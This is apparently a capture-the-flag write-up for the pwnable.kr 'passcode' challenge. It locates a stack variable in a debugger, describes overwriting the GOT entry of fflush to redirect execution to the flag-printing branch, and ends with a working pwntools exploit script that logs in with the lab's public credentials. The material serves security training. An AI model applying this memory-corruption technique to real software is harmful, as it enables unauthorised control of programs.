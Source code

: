 mov value of [ebp+var_10] to register edx.So [ebp+var_10] should be address of passcode1.

Just set a breakpoint in the login function and run it.

![image-20220707235613970](assets/image-20220707235613970.png)

Address of variable passcode1 is **0xffffd0b8**

Let doing in calculate: 

![image-20220707235706682](assets/image-20220707235706682.png)

variable name and variable passcode1 have 0x60 bytes apart.

We just filling it and write passcode value to GOT of fflush, Then we input address of Login OK statement.

When call the fflush function will jump to Login OK and cat flag.

Of course, we might to be able to change value of variable passcode1 and passcode2 to specified value to meet the conditions.

But, I don't have a trying.

EXP: 

```python
from pwn import *

pwn_ssh = ssh(host="pwnable.kr",port=2222,user="passcode",password="guest")

shell = pwn_ssh.process(executable="./passcode",argv=["./passcode"])

payload1 = b"k"*0x60 + p32(0x804a004)
payload2 = str(int(0x080485D7))

shell.recvuntil(b"enter you name : ")
shell.sendline(payload1)

shell.recvuntil(b"enter passcode1 : ")
shell.sendline(payload2)

print(shell.recvall())
```
